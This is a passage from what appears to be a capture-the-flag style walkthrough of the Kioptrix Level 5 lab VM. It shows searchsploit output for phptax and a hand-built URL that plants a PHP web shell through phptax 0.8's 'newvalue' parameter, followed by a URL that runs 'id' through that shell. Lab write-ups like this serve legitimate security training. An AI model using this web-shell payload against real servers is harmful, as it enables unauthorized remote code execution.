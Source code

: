 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%205/Images/burp2.png?raw=true)

The webpage now becomes available.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%205/Images/browser8080_2.png?raw=true)

It seems thereâ€™s software called phptax running on the server.

### Vulnerability Identification (Port 8080)

Using searchsploit to find appropriate vulnerability in exploit-db database.
```bash
root@kali:~/vulnhub/kioptrix_5# searchsploit phptax
-------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                      |  Path
                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------- ----------------------------------------
PhpTax - 'pfilez' Execution Remote Code Injection (Metasploit)      | exploits/php/webapps/21833.rb
PhpTax 0.8 - File Manipulation 'newvalue' / Remote Code Execution   | exploits/php/webapps/25849.txt
phptax 0.8 - Remote Code Execution                                  | exploits/php/webapps/21665.txt
-------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```

Identifying exploit’s patch and copying it to the clipboard.
```bash
root@kali:~# searchsploit -p 25849
  Exploit: PhpTax 0.8 - File Manipulation 'newvalue' / Remote Code Execution
      URL: https://www.exploit-db.com/exploits/25849
     Path: /usr/share/exploitdb/exploits/php/webapps/25849.txt
File Type: ASCII text, with CRLF line terminators

Copied EDB-ID #25849's path to the clipboard.
```

### Remote Command Execution

Although the exploit itself didn't work, going through exploit's code the following URL exploit has been manually crafted:

```
http://192.168.20.148:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E%22
```

To test the exploit **id** command has been ran through the URL as shown below:

```
http://192.168.20.148:8080/phptax/data/rce.php?cmd=id
```

